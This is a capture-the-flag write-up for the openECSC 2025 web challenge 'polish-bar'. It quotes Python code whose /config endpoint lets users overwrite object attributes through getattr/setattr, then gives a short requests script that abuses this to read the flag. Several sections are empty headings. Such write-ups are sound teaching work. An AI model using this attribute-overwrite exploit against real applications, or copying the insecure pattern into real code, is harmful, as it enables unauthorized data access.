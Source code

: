 ```yaml
---
title: "openESEC 2025 - web/polish-bar"
layout: single
classes: wide
date: 2025-10-06
categories: blog
toc: true
toc_label: "Table of contents"
---
```


# Polish-bar

> This Web Application was made to adapt to polish (drinking) culture :3

## Primitves

We have http endpoint to register which in turn we need to aquire a valid session. Afterwards, we have the endpoints `config`,`empty` and `beverage` which I mapped to the methods below in the class `BeverageConfig` and `PreferenceConfig`.

```py
    def get_property(self, val):
        try:
            if hasattr(self.alcohol_shelf, val):
                return getattr(self.alcohol_shelf, val)

            return getattr(self, val)
        except:
            return

    # /config
    def update_property(self, key: str, val: str):
        attr = self.get_property(val)
        if attr:
            setattr(self, key, attr)
            return
        return { 'error': 'property doesn\'t exist!' }
    
    # /empty
    def empty_alcohol_shelf(self):
        if hasattr(self.alcohol_shelf, "_alcohol_shelf"):
            self.alcohol_shelf._alcohol_shelf = [self.alcohol_shelf._alcohol_shelf[0]]
        else:
            self.alcohol_shelf = self.alcohol_shelf[0]

    # /beverage
    def add_beverage(self, beverage: str):
        self.alcohol_shelf._alcohol_shelf.append(beverage)

```

Let's disect what each method does:

- `update_property` retrieves the attribute `val` and sets the attribute `key` to its value
- `empty_alcohol_shelf` will shorten the list `self.alcohol_shelf._alcohol_shelf` to its first value to the list `self.alcohol_shelf` to its first value
- `add_beverage` add an item to the list `self.alcohol_shelf._alcohol_shelf`

If you are not familiar with the special methods `getattr`, `setattr` and `hasattr` --- I got you covered in the next section!

Furthermore, the class `PreferenceConfig` and thus `BeverageConfig` due to inheritance have one interesting class variable `_all_instances`. The `__init__` for `PreferenceConfig` append every newly created object to that class as long it inherited from `PreferenceConfig`. 

## Python refresher on instance and objects vars

Below is a small playground I created if you want to try it on your own first. 

<iframe
  src="https://bluuuk.github.io/blog-jupyterlite/lab/index.html?path=/openECSC-playground.ipynb"
  width="100%"
  height="800px">
</iframe>


## Intuition


## Step by step guide


## Final Solve

We use an `Session` which automatically glues cookie to subsequent http request once they set - here its the `session` cookie:

```py
import requests
session = requests.Session()
base = "https://3a454160-13f7-4fdc-beaf-ea41d11839cb.openec.sc:1337"

session.post( f"{base}/register", data={"username":"admin","password":"lol"})
session.post(f"{base}/empty")
session.post(f"{base}/config",data={"config":"alcohol_shelf","value":"_all_instances"})
session.post(f"{base}/empty")
print(session.post(f"{base}/profile"))
```

Executing our solve script gives us our well deserved flag :)

```bash
❯ python solve.py | grep open
                    openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}
                               value="openECSC{gggrrrrrrr_ppyytthhonnn_8c719052fa04}">
````
